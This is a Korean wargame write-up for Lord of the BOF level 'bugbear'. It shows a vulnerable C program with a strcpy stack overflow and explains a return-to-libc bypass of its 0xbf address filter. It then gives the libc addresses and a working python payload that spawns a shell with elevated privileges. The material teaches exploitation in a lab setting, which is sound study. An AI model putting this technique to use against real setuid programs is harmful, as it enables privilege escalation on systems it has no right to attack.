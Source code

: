 ```yaml
---
title: "[LOB]Level13. bugbear"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[RTL : Return To Library](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소`\xbf`를 필터링 한다.

즉, `\xbf`로 시작하는 주소를 리턴 주소로 할 수 없다. 그래서 생각나는 기법이**라이브러리 함수를 사용하는 RTL(Return To Library)기법이다.**



##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

-----

### 0x02. Exploit

```
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```

-----

